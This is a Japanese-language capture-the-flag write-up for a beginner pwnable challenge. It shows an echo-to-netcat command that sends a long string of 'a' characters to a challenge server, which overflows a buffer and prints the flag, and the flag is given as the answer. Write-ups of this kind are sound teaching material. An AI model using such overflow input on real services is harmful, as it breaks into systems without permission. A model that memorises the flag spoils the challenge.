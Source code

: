 # nag0m1CTF

https://nag0mictf.tk

## pwnable

### pwn_begin

> Pwnable is a difficult field, but the field is very interesting! Do you find my flag?
> 
> nc 3.18.62.210 11000

<br>

pwnableという分野を知ってもらうために，基本的な問題を作成しました．

私のPCの環境にはWSLが入っているため，その環境で作業しています．

問題文のとおり，netcatすると以下のような画面が出てきます．

```
> nc 3.18.62.210 11000
You enter something >>
```

何か入力しろということなので，適当に入力してみます．

```
> nc 3.18.62.210 11000
You enter something >> Hello world.
Hello world.
Try harder.
```

入力した文字がそのまま出て，"Try harder."と出力されて終わるようです．

ファイルが渡されているわけでもありませんのでこれ以上ヒントはありません．

<br>

ここで，pwnableの問題の特徴についてです．

pwnableの問題はプログラムの脆弱性をつく問題が多いのが特徴です．

この問題については，**バッファオーバーフロー**の脆弱性をつく問題となっていました．

途中でヒントを追加したので，ヒントを呼んだらわかったという方もいたのではないでしょうか．

> -Hint-
> 
> If you wanna get my flag, you should enter a lot of information.

ということで，ひたすらたくさんの文字を入力してみます．

```
> echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 3.18.62.210 11000
You enter something >> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Congratulations!!!
nag0m1{57ack_0v3rf1ow_i5_dan9er0us}
```

無事にフラグを入手することができました．

---

*別解1*

echoを使用しなくても大丈夫です．ただ，netcatの時間制限を設けているため，短時間でたくさんの文字を入力することが困難かもしれないですね...

```
> nc 3.18.62.210 11000
You enter something >> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Congratulations!!!
nag0m1{57ack_0v3rf1ow_i5_dan9er0us}
```


